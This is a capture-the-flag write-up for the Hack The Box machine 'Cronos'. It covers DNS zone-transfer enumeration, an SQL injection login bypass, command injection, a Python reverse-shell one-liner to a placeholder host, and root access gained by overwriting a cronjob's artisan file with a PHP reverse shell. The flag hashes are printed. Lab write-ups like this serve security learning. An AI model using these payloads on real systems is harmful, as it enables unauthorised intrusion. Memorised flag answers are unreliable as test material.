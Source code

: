 # Tasks

[**1. How many TCP ports are listening on Cronos?**](#task-1)

[**2. What subdomain of cronos.htb is serving a login page over HTTP?**](#task-2)

[**3. What is the heading at the top of the webpage once authenticated?**](#task-3)

[**4. What user is the website on Cronos running as?**](#task-4)

[**5. User Flag**](#user-flag)

[**6. What is the full path to the file passed to php in a cronjob that runs every minute as the root user?**](#task-6)

[**7. Does www-data have write permissions on the artisan binary?**](#task-7)

[**8. Root Flag**](#root-flag)

# Tools Used

- nmap
- dig
- nc
- linpeas

# Skills Used

- DNS Enumeration
- Basic SQLi
- Command Injection
- Automated system enumeration (via linpeas)
- Cronjob Abuse (idk if that's what it's called but yeah)

# Solutions

## Task 1

You know the drill:

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/44fa3962-a8ac-4b2d-8206-2f455c8cbcdd)

**Answer: 3**

## Task 2

First off, let's put that domain name into _/etc/hosts_, like so:

![image](https://github.com/user-attachments/assets/f9d9ae5e-ff2a-40cb-bdd3-c4a04e3628a6)

We can add the subdomains to it later.

Anyways, the next part took me about 30 minutes, but with [this](https://medium.com/disruptive-labs/a-penetration-testers-guide-to-sub-domain-enumeration-7d842d5570f6) and [this](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/), I got a lead on what I could do to conduct the subdomain enumeration.

**Disclaimer:** It took me 30 minutes cuz I was trying to use _dns.nse_ scripts for _nmap_ for sudomain enumeration.

This is new for me so I'll explain in detail as best as I can.

So what I used for the subdomain enueration was a _DNS Zone Transfer_. As far as I understand, it's a way to transfer data between two _DNS servers_. I'm not exactly sure how it works, but for now, that much info will do.

Knowing that, I can use _dig_ via _AXFR_ (protocol used for the _DNS Zone Transfer_) to get a list of subdomains with the targeted domain name.

To do that, I need to use this command:

```
dig axfr @[First DNS Server/Target Server IP Address] [Target Domain Name]
```

Which looks like this:

![image](https://github.com/user-attachments/assets/e283876b-27a2-409c-a26a-8b81f8dabd1b)

Anyways, after finding the subdomains, I instinctively went for _admin.cronos.htb_ lmao.

Add that to _/etc/hosts_, and turns out I was right.

![image](https://github.com/user-attachments/assets/d32b01d1-856c-445f-91ba-b234d7b32cc8)

**Answer: admin.cronos.htb**

## Task 3

Now before we can actually answer that, we do need to be authenticated, like the task said.

Considering _SQLi_ was mentioned as part of the machine, I assumed this is where to do it, considering I'm at a login page.

I tried the default ```admin:' or 1=1--```, but that didn't work.

After that, I looked at [**Chad Tib3rius Cheatsheet**](https://tib3rius.com/sqli.html) to see what I can do about it, and found this:

![image](https://github.com/user-attachments/assets/a446234a-a11e-4a6d-8d17-baaf66da08d9)

Tried to add that to the credentials like this ```admin:' or 1-1-- -```, but that still didn't work.

Then I thought maybe I should try that on the _username_, considering the rest of the query will get commented out anyway, since the query most probably looks like this:

```
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

Turns out I was right lmao.

![image](https://github.com/user-attachments/assets/94dcfd93-fa5f-4a78-9756-ecf34d9bed52)

Anyways, looks like I can do _command injection_ here now, but first, I gotta answer the question, which is probably...

**Answer: Net Tool v0.1**

## Task 4

Now we can do _command injection_.

**Bada bing**

![image](https://github.com/user-attachments/assets/692118ce-0f94-403a-9c2f-b63528158568)

**Bada boom**

![image](https://github.com/user-attachments/assets/d0a77d80-b7bf-41c8-917f-e8da59aca102)

**Answer: www-data**

## User Flag

For this, I'd rather get my own shell, so let's head over [**here**](https://www.revshells.com/) to get one.

Specifically this script btw:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[IP Address]",[Port]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'
```

Had to use ```which python``` in the web shell to make sure _python_ was there lol.

Anyways, after I got that, I decided to stablize it using this:

```
1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. CTRL + Z to background
4. stty raw -echo; fg (fg = foreground)
```

Result:

![image](https://github.com/user-attachments/assets/f1e8584a-ec57-4ff2-89b8-22734ef74b45)

**P.S.** Ignore the fact I did step 2 first lmao.

Now that we have a proper shell, let's actually get the flag.

Did ```find / -name user.txt -type f``` to find where it is, forgetting to add in ```2>/dev/null``` to get rid of all the other useless info, and found the flag.

![image](https://github.com/user-attachments/assets/11d1f311-3cfd-4a28-8957-ef03abaf5ef2)

And yes, I only did it after to show that it was clean lol.

**Answer: 94d561b764b68d7beaa6749157357fe5**

## Task 6

I got too lazy to enumerate it myself, but hey, why should I when I got _linpeas_?

Just run a _http server_ on my main machine with _python_ in the directory with _linpeas_ (yes, I have a dedicated directory for that lmao), use ```wget``` in _/tmp_ on the victim machine to get it,
run ```chmod +x``` on the file we got so that we can actually run it, then boom, auto enumeration.

![image](https://github.com/user-attachments/assets/ad7db112-d8fd-49db-beb5-a28950423024)

Just gotta love how _linpeas_ highlights very potentially interesting stuff about the system.

**Answer: /var/www/laravel/artisan**

## Task 7

![image](https://github.com/user-attachments/assets/c4962aa1-5d0f-4a94-8700-778b35560b8e)

Yes, yes it does.

**Answer: yes**

## Root Flag

Knowing that, we can probably do what we did in [**Bashed**](../../Bashed/Writeup.md) and change the contents of the file to execute a reverse shell instead.

Back to [**here**](https://www.revshells.com) again lmao (this time we need php).

I'd show the script I selected but it's really long, so instead, I'll just say that I used _PHP Pentestmonkey's_ script.

Anyways, after _touching_ a new file named _artisan2_, and using _nano_ to paste the script there, I copied the contents of _artisan2_ into _artisan_.

Why didn't I just replace the code inside _artisan_ directly? Simple, it's a pain in the ass for me to use _nano_ on a reverse shell, even if it's stabilized lol.

![image](https://github.com/user-attachments/assets/3b4b2068-8432-4d18-a16c-b2f7c678e97c)

Anyways, after just 2 seconds of copying _artisan2_ into _artisan_, I got a shell from my _netcat_ listener, and got the flag.

![image](https://github.com/user-attachments/assets/d9f10801-ae39-4056-8b8c-ca274f2aabb6)

**Answer: 3e2817833a9a977bf0a3ebe71bb955be**

